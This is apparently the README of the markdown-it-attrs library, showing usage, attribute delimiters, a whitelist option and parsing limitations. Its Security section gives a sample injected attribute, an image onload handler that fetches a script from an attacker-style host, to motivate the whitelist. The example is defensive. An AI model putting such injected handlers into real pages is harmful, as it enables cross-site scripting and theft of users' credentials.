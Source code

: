 ## Usage

```js
var md = require('markdown-it')();
var markdownItAttrs = require('markdown-it-attrs');

md.use(markdownItAttrs, {
  // optional, these are default options
  leftDelimiter: '{',
  rightDelimiter: '}',
  allowedAttributes: []  // empty array = all attributes are allowed
});

var src = '# header {.green #id}\nsome text {with=attrs and="attrs with space"}';
var res = md.render(src);

console.log(res);
```

[demo as jsfiddle](https://jsfiddle.net/arve0/hwy17omn/)


## Security
A user may insert rogue attributes like this:
```js
![](img.png){onload=fetch('https://imstealingyourpasswords.com/script.js').then(...)}
```

If security is a concern, use an attribute whitelist:

```js
md.use(markdownItAttrs, {
  allowedAttributes: ['id', 'class', /^regex.*$/]
});
```

Now only `id`, `class` and attributes beginning with `regex` are allowed:

```md
text {#red .green regex=allowed onclick=alert('hello')}
```

Output:
```html
<p id="red" class="green" regex="allowed">text</p>
```

## Limitations
markdown-it-attrs relies on markdown parsing in markdown-it, which means some
special cases are not possible to fix. Like using `_` outside and inside
attributes:

```md
_i want [all of this](/link){target="_blank"} to be italics_
```
